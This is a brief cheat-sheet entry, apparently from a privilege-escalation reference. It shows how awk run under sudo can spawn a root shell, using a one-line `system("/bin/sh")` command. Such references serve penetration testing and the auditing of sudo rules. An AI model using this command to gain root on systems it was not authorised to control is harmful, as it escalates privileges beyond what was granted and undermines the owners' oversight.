 # AWK
***

If a user can has the ability to execute awk with elevated privileges, then this command effectively spawns a new shell with root privileges.
```sh
sudo awk 'BEGIN {system("/bin/sh")}'
```

